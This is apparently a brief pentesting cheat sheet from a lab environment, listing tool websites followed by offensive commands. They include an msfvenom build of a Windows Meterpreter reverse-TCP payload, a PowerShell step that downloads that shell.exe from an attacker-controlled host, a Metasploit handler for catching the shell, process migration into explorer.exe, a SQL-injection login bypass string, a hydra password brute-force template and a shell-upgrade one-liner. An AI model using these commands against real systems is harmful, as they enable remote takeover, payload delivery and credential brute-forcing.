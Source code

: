 

sql map

---

hashes.com

cyberchef.io





msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.245.232 LPORT=6667 -f exe -o shell.exe

powershell -c "Invoke-WebRequest -Uri 'http://10.10.245.232:8000/shell.exe' -OutFile 'c:\temp\shell.exe'"

msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.248.10; set lport 6666;set payload windows/meterpreter/reverse_tcp; exploit"

migrate -N explorer.exe

' or 1=1 -- -

hydra -l <username> -P <password_list> <target_ip> http-post-form "<url>:<post_data>:<failure_string>"

python -c “import pty; pty.spawn(‘/bin/bash’)”


enum4linux


https://www.alexandroslekkas.com/
